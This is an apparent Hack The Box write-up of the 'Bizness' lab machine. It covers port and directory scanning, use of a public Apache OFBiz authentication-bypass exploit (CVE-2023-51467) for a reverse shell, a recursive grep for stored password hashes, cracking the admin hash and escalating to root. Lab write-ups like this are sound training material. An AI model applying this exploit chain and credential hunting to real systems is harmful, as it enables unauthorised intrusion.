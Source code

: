 ```yaml
---
title: "Bizness"
date: 2024-01-11 18:58:00 +0100
categories: [writeup, easy]
tags: [machine, CVE 2023-51467]
---
```

<p>
    <a href="https://app.hackthebox.com/machines/582">
        <img src="assets/img/bizzness/Bizness.png" width="500"
        alt="Descripción">
    </a>
</p>

## Table of Contents

1. [Service Enumeration](#1-recon)
2. [Service analysis on TCP/80](#2-tcp-80)
3. [CVE-2023-51467](#3-cve-2023-51467)
4. [Privilege Escalation](#4-user-to-root)


## 1. Recon

```bash
└─$ nmap -sC -sV -oA nmap/initial 10.10.11.252
Nmap scan report for 10.10.11.252
Host is up (0.12s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp  open  http     nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to https://bizness.htb/
443/tcp open  ssl/http nginx 1.18.0
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
|_http-title: Did not follow redirect to https://bizness.htb/
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=UK
| Not valid before: 2023-12-14T20:03:40
|_Not valid after:  2328-11-10T20:03:40
|_ssl-date: TLS randomness does not represent time
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Feb  8 10:10:57 2024 -- 1 IP address (1 host up) scanned in 29.47 seconds
```

## 2. TCP-80

There is an active service on port 80 and, as you can see from the nmap output, it redirects us to *https://bizness.htb*, so before connecting, we add it in `/etc/hosts`.

<p>
  <img src="assets/img/bizzness/home (1).png" 
  alt="Descripción"/>
</p>

Not seeing anything interesting I started [dirsearch](https://github.com/maurosoria/dirsearch).

```bash
└─$ dirsearch -u https://bizness.htb --exclude-status 403,404,500,502,400,401

302     0B   https://bizness.htb/accounting    -> REDIRECTS TO: https://bizness.htb/accounting/
302     0B   https://bizness.htb/catalog    -> REDIRECTS TO: https://bizness.htb/catalog/
302     0B   https://bizness.htb/common    -> REDIRECTS TO: https://bizness.htb/common/
302     0B   https://bizness.htb/content    -> REDIRECTS TO: https://bizness.htb/content/
302     0B   https://bizness.htb/content/    -> REDIRECTS TO: https://bizness.htb/content/control/main
302     0B   https://bizness.htb/content/debug.log    -> REDIRECTS TO: https://bizness.htb/content/control/main
200    34KB  https://bizness.htb/control
200    34KB  https://bizness.htb/control/
200    11KB  https://bizness.htb/control/login
302     0B   https://bizness.htb/error    -> REDIRECTS TO: https://bizness.htb/error/
302     0B   https://bizness.htb/example    -> REDIRECTS TO: https://bizness.htb/example/
302     0B   https://bizness.htb/images    -> REDIRECTS TO: https://bizness.htb/images/
302     0B   https://bizness.htb/index.jsp    -> REDIRECTS TO: https://bizness.htb/control/main
200    21B   https://bizness.htb/solr/admin/
200    21B   https://bizness.htb/solr/admin/file/?file=solrconfig.xml
302     0B   https://bizness.htb/solr/    -> REDIRECTS TO: https://bizness.htb/solr/control/checkLogin/
```

Trying to connect to the first result obtained I am redirected to the [OFBiz](https://en.wikipedia.org/wiki/Apache_OFBiz) login page.

<p>
  <img src="assets/img/bizzness/OFBiz.png" 
  alt="Descripción"/>
</p>

## 3. CVE-2023-51467

Having the system version

<p>
  <img src="assets/img/bizzness/version.png" 
  alt="Descripción"/>
</p>

I started looking for vulnerabilities and I found [CVE-2023-51467](https://www.letsdefend.io/blog/exploitation-analysis-of-apache-ofbiz-zero-day-vulnerabilities-cve-2023-49070-cve-2023-51467#:~:text=CVE%2D2023%2D51467%20is%20a,without%20requiring%20any%20prior%20authentication.), thanks to which it is possible to bypass authentication and execute commands. So I found an [exploit](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) for that CVE and performed a reverse shell.

<p>
  <img src="assets/img/bizzness/shell (1).png" 
  alt="Descripción"/>
</p>


We can have a better shell with the following command:

- python3 -c 'import pty; pty.spawn("/bin/bash")'
- CTRL + Z
- stty raw -echo; fg
- export TERM=xterm

In */home/ofbiz* there is the user flag.

## 4. User to ROOT

I tried using [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) without success, so, after some exploration, I found an interesting file in */opt/ofbiz/framework/resources/templates/* called *AdminUserLoginData.xml*.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
Licensed to the Apache Software Foundation (ASF) under one
or more contributor license agreements.  See the NOTICE file
distributed with this work for additional information
regarding copyright ownership.  The ASF licenses this file
to you under the Apache License, Version 2.0 (the
"License"); you may not use this file except in compliance
with the License.  You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing,
software distributed under the License is distributed on an
"AS IS" BASIS, WITHOUT WARRANTIES OR CONDITIONS OF ANY
KIND, either express or implied.  See the License for the
specific language governing permissions and limitations
under the License.
-->

<entity-engine-xml>
    <UserLogin userLoginId="@userLoginId@" currentPassword="{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a" requirePasswordChange="Y"/>
    <UserLoginSecurityGroup groupId="SUPER" userLoginId="@userLoginId@" fromDate="2001-01-01 12:00:00.0"/>
```

So we have the current password but it is of no use. Then I ran a grep on each file to see if there were any passwords that were usable.

```bash
ofbiz@bizness:/opt/ofbiz$ find . -type f -exec strings {} \; | grep "currentPassword"
[...SNIPPET...]
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
[...SNIPPET...]
```

In the output I found a salted hash referring to the admin (which after looking it up I saw was in */opt/ofbiz/runtime/data/derby/ofbiz/seg0/c54d0.dat*).

While looking for a way to crack the hash I found a [tool](https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker) that performs this operation on hashes coming from OFBiz.

<p>
  <img src="assets/img/bizzness/crack_hash.png" 
  alt="Descripción"/>
</p>

We use the password found to become superuser.

```bash
ofbiz@bizness:/opt/ofbiz$ su 
su 
Password: monkeybizness

root@bizness:/opt/ofbiz# whoami
whoami
root
```

In */root* there is the root flag.
